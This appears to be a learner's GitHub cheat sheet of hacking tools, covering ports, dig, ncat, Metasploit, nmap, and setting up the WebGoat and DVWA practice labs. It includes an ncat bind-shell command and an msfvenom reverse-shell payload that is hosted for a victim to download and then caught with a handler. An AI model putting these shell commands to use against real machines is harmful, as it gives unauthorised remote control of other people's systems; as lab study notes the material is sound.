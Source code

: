 # Hacking Tools
---
******************** Ports information **************************
There are 65535 port numbers (2^16).

20 and 21: FTP (File Transfer Protocol --> Transfer files between client and server)
22: SSH (Secure Shell --> Tunneling protocol for secure network connection)
23: Telnet
25: SMTP (Simple Mail Transfer Protocol --> Used for email)
53: DNS (Domain Name System --> Domain names to ip adresses)
67 and 68: DHCP (Dynamic Host Configuration Protocol --> Assigns IP adresses to devices dynamically)
80: HTTP (Hypertext Transfer Protocol --> Makes world wide web possible)
110: POP3 (Post Office Protocol --> For receiving emails)
123: NTP (Network Time Protocol --> Clocks synchronization)
143: IMAP (Internet Message Access Protocol --> For receiving emails)
179: BGP (Boder Gateway Protocol --> Used for establish connections between large networks)
443: HTTPS (Hypertext Transfer Protocol Secure --> Secure and encrypted version of http)
500: ISAKMP (Internet Security Association and Key Management Protocol --> Is part of the process of setting up secure IPsec connections)
3389: RDP (Remote Desktop Protocol --> Allows users to connect their computers from another device)

More information at:  (IANA --> Internet Assigned Numbers Authority) https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml
*************************************************************

## DIG

Tool for interrogating DNS name servers.

Get a DNS response (information about a domain):

```Shell
dig ns<number of server>.<domain>
```

Get simplified response (only ip address):

```Shell
dig +short ns.<domain>

// Get one of the google´s ip adresses
dig +short ns.google.com
```

Get belonging domain of an ip:

```Shell
dig +short -x <IP adress>
```


## NCAT

Tool for reading and writing data across the network.

Use ncat as a server running in port 8080:

```Shell
ncat -l <ip> <port>
```

Example:

```Shell
ncat -l 127.0.0.1 8080
```

Establish a connection with the server:

```Shell
ncat 127.0.0.1 8080
```









ncat -l --exec "/bin/bash" 127.0.0.1 8080 (For execute the given command)


------------------------ARMITAGE (Graphical user interface for Metasploit)------------------------

## Metasploit

*(S): For shell commands

// Metasploit modules are: Exploits, payloads, auxiliary, encoders, nops, posts, evasion.
// Modules are located in: /usr/share/metasploit-framework/modules
// Try to run the database service to initialize the msf faster 'service postgresql start'
// Dictionaries for brute-force attacks available at /usr/share/metasploit-framework/data/wordlists

msfdb (Manage metasploit framework database) (S)
msfconsole (Intiallize the metasploit framework) (S)

banner (Display a banner)
db_status (Check the metasploit frmaework database status)
use <module> (Use a certain metasploit module)
show <options> (Show information about a moudule)
set <option> <value> (Set options, use 'show options' to see them)
search <field> <parameter> (Make queries about modules. e.g. type:payload)
back (Return to metasploit framework main command line interface)
run (Running an auxiliary)
exploit (Running an exploit)

// msfvenom is a payload generator
// For instance, we can make a reverse shell  by using the payload 'php/meterpreter/reverse_tcp'

msfvenom -p <payload> <option>=<value> <other optional flags> > <file name to contain the payload>
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Our ip address> LPORT=4444 -e php/base64 -f raw > shell.php (Setting the payload with our machine listening. '-e' flag for setting an appropiate encoder, '-f' flag for setting the file format as a raw file, also we are saving the payload into 'shell.php' file)

// LPORT is 4444 by default (try 'msfvenom -p <payload> --list-options' for looking for options)
// Inside the file we'll find a single line of base64 encoded payload, so we wrap that line like that:
<?php
<encoded payload>
?>
// Then the machine will read it as php code

// Now we can start an apache2 web server so the victim download the payload from there. Copy the file into '/var/www/html', start the server and enter your ip adress into the browser.
// Go to msfconsole and use 'exploit/multi/handler' then set LHOST to your address and run the exploit for start listening. Once the victim machine opens the file a session will be created.



## NMAP

// Use -sS for a stealth scan, -sT flag is louder. Use -sV for showing services version

nmap <flags> <IP adress> (See open ports)


---------------------------------------------------------------------------------------------------

// WebGoat is a deliberately insecure web application maintained by OWASP designed to teach web application security lessons. 
docker run -it -p 127.0.0.1:80:8888 -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/goatandwolf:v8.2.2 (Starting WebGoat)
// Web application located at: http://127.0.0.1:8080/WebGoat/login


// Now we are going to set up the DVWA web application
// We put DVWA file into /var/www/html
// Accesing MariaDB
mysql -u root -p
// mysql commands ends with semicolon
CREATE DATABASE dvwa; (Creating a database called dvwa)
GRANT all ON dvwa.* to dvwa@localhost identified by 'password'; (Granting permissions to the database)
flush privileges;
// Exit the MariaDB and rename the file into /var/www/html/DVWA/config
mv config.inc.php.dist config.inc.php
// Rewrite the file so set the user and the password to the ones setted in the database created
// Rewrite /etc/php/7.4/apache2/php.ini: allow_url_include = On
// Restart php service
// Enter localhost and create database
// Log in with admin123:password

--------------------------------------ZED ATTACK PROXY---------------------------------------------

// Install zaproxy
// For quick scan use: http://www.webscanttest.com

---------------------------------------------------------------------------------------------------